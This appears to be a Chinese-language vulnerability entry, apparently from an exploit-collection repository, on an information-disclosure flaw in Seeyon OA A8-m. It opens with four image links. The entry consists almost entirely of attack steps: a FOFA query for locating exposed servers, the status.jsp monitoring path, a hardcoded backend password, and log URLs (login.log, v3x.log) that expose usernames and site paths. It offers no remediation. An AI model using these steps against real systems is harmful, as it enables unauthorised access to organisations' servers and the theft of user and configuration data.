




# 致远OA A8 status.jsp 信息泄露漏洞

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响

```
致远OA A8-m
```

## FOFA

```
title="A8-m"
```

## 漏洞复现

访问监控页面

```
/seeyon/management/status.jsp
```



后台密码为 WLCCYBD@SEEYON

登录后通过如下url获得一些敏感信息

```
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```





